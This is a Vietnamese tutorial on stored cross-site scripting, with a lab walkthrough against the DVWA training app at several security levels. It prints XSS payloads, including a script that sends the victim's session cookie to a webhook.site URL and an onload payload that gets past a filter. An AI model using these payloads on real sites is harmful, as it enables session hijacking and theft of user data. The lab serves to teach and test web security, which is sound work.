

# What is stored cross-site scripting (XSS)?

Stored [XSS] (https://owasp.org/www-community/attacks/xss/) là loại Cross Site Scripting nguy hiểm nhất. Các ứng dụng web cho phép người dùng lưu trữ dữ liệu có khả năng bị tấn công theo kiểu này. Chương này minh họa các ví dụ về việc chèn mã độc vào cross site scripting và các tình huống khai thác liên quan.

Stored XSS xảy ra khi một ứng dụng web thu thập dữ liệu đầu vào từ người dùng có thể là độc hại, sau đó lưu trữ dữ liệu đầu vào đó trong kho dữ liệu để sử dụng sau. Dữ liệu đầu vào được lưu trữ không được lọc chính xác. Do đó, dữ liệu độc hại sẽ xuất hiện như một phần của trang web và chạy trong trình duyệt của người dùng theo các đặc quyền của ứng dụng web. Vì lỗ hổng này thường liên quan đến ít nhất hai yêu cầu đối với ứng dụng, nên điều này cũng có thể được gọi là XSS bậc hai.

Lỗ hổng này có thể được sử dụng để thực hiện một số cuộc tấn công dựa trên trình duyệt bao gồm:

- Chiếm đoạt trình duyệt của người dùng khác
- Thu thập thông tin nhạy cảm mà người dùng ứng dụng xem
- Làm hỏng ứng dụng giả
- Quét cổng của máy chủ nội bộ (“nội bộ” liên quan đến người dùng ứng dụng web)
- Phân phối trực tiếp các khai thác dựa trên trình duyệt
- Các hoạt động độc hại khác

Stored XSS không cần liên kết độc hại để khai thác. Khai thác thành công xảy ra khi người dùng truy cập trang có XSS được lưu trữ. Các giai đoạn sau liên quan đến kịch bản tấn công Stored XSS điển hình:

- Kẻ tấn công lưu trữ mã độc vào trang dễ bị tấn công
- Người dùng xác thực trong ứng dụng
- Người dùng truy cập trang dễ bị tấn công
- Mã độc được thực thi bởi trình duyệt của người dùng

Loại tấn công này cũng có thể được khai thác bằng các khuôn khổ khai thác trình duyệt như [BeEF](https://beefproject.com) và [XSS Proxy](http://xss-proxy.sourceforge.net/). Các khuôn khổ này cho phép phát triển khai thác JavaScript phức tạp.

Stored XSS đặc biệt nguy hiểm trong các lĩnh vực ứng dụng mà người dùng có quyền cao có thể truy cập. Khi quản trị viên truy cập trang dễ bị tấn công, cuộc tấn công sẽ tự động được thực hiện bởi trình duyệt của họ. Điều này có thể làm lộ thông tin nhạy cảm như mã thông báo ủy quyền phiên.

# Lab: Khai thác lỗi Stored Cross-site scripting (Stored XSS) trên DVWA

1. Mức độ **Low-level-security**

   

   Ở level này ta nhận thấy người dùng có thể nhập data input vào những ô text box và dữ liệu sẽ được database lưu lại để hiển thị lại ra màn  (giống kiểu chức năng **comment**) => dấu hiệu bị refected và data thì bị lưu trữ lại => có thể bị lỗi **Stored Cross-site scripting** 

   

   Chúng ta thử kiểm tra bằng 1 đoạn mã nhỏ 
   ```js
   <script>alert(1)</script>
   ```

   
   > Từ kết quả, thấy được chức năng *comment* ở level này bị **XSS**

   Tiếp theo chúng ta sẽ thay đoạn mã nhỏ kia bằng 1 script có thể lấy được cookie phiên đăng nhập của người dùng. Thì ở đây, tôi sẽ sử dụng trang web là [Webhook.site](), khi đoạn mã script độc hại bị kích hoạt thì nó sẽ gửi dữ liệu về trang web này. Đoạn mã tôi sử dụng có dạng như sau
   ```js
    <script>
    new Image().src = "https://webhook.site/your-id?c=" + document.cookie;
    </script>
   ```
   Bây giờ tôi chỉ việc truy cập và *Webhook.site* và thay thế đoạn URL có chứa  ID trang web tự cấp khi truy cập  vào đoạn mã bên trên.

   
   
   Ta cần để ý rằng nếu đoạn script hơi dài (quá 50 ký tự) thì cần phải vào *inspect* của trình duyệt để tăng số lượng ký tự của text area, ở đây tôi để max ping là 500 luôn  

   
    
   Kiểm tra mã nguồn trang web, ta thấy đoạn script đã được đưa lên.

   
   
   Qua trang *Webhook.site*, ta lấy được cookie của máy nạn nhân

   

2. Mức độ **Medium-level-security**

   Ở mức độ Medium-level security, mục *Message* và *Name* đã được lọc những ký tự có khai gây lỗi XSS bằng hàm `htmlspecialchars`.

   

   

   Ta sẽ thử dùng 1 đoạn mã khác để khai thác

   ```js
   <body onload="alert(document.cookie)">
   ```
   
   
   > Kết quả là ta có thể thấy được cookie sau khi kết thúc reload trang.

3. Mức độ **High-level-security**

   Mức độ này làm tương tự như ở **Medium-level-security** 

   